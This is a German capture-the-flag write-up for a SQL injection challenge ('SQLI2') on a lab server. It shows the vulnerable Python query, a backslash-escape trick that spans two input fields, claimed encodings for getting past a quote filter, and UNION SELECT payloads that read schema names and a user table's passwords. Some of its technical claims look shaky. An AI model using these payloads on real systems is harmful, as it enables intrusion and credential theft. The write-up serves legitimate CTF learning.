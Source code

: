 # SQLI2

## General Information

url: http://vuln2.redrocket.club:22345/

Das hier ist der zugehörige code in python: 
```python 
article_id = request.form["article_id"] 
title = request.form["title"] 

if "'" in article_id or "'" in title: return "Forbidden character used!" 

cursor.execute(f"SELECT id, title, content FROM articles WHERE public=1 AND (id='' OR title='')")
```

* eins von beiden kann immer leer bleiben
* nur die id wird wirklich gebraucht 
* man darf kein ' benutzen 
* " funktionieren 

## Wie muss die Query modifiziert werden? 
Die Query soll später so aussehen, dass union select durchgeführt werden kann: 

```sql
SELECT id, title, content FROM articles WHERE public=1 AND (id='  \'   \' OR title=' ) union select schema_name, 2, 3 from information_schema.schemata LIMIT 0,1 --') 
```

* also ich muss in das erste feld ein ' rein tuen 
- evtl. muss ich \ (quotation mark) \ einfügen damit das ganze als ein string erkannt wird (ja muss man definitiv, weil sonst wird das dritte semikolon als "string zu ende" gesehen und das will man ja nicht)
- und ich das zweite input feld muss ich kein ' rein tun weil da steht ja schon eins dann (was den string dann beendet)
- da muss ich nur das letzte ' vom zweiten input feld kaputt machen, indem ich da ein -- am ende hin tue 
- und da kommt dann also nur noch eine klammer zu hin (damit kein sql fehler kommt) 
- und dann meinen code rein 

Also was wird getan? 
erstes input Feld: 
Eingabe: \ ' \
id=' \' \' -- jetzt denkt die db der string geht noch weiter (weil das ende-des-string-anführungszeichen ist ja escaped). 
--> Funktioniert auch, wenn man nur \ rein tut 

zweites input feld: 
title=' -- hier ist der String jetzt zu Ende, dank dem anfang-des-string-anführungszeichen des zweiten inputs 
--> jetzt kann man seinen eigenen code rein tun (muss aber noch die klammer schließen damit es klappt)

### Wie umgeht man die Anführungszeichen-Sperre? 
Diese ist durch Python-Code umgesetzt. Die mysql-Datenbank übersetzt hex, ansi, url encodede strings in die richtige Bedeutung. Daher funktioniert folgendes um das Anführungszeichen zu ersetzen (alle ausprobiert):
* \ 0x27 \    -- hex encode 
* \ 0027 \   --ansi? encode 
* \ %27 \   --url encode 

Wie gesagt, hätte man das Anführungszeichen aber gar nicht gebraucht, sondern nur das \ Zeichen. 

### Welchen Code braucht man, um die flag anzuzeigen?
Da es sich um dieselbe DB wie bei Aufgabe 3 handelt, wurde der selbe String um die flag zu bekommen genommen: 
```SQL
) union select id, name, password from userdatathatisvaluable limit 0,1  --
```
Nur in diesem Fall wurde davor die Klammer gesetzt, damit kein SQL Fehler ausgegeben wurde. **Wichtig**: Im Eingabefeld musste nach den Kommentarstrichen noch ein Leerzeichen hinzugefügt werden, sonst wurde ein Fehler geworfen 







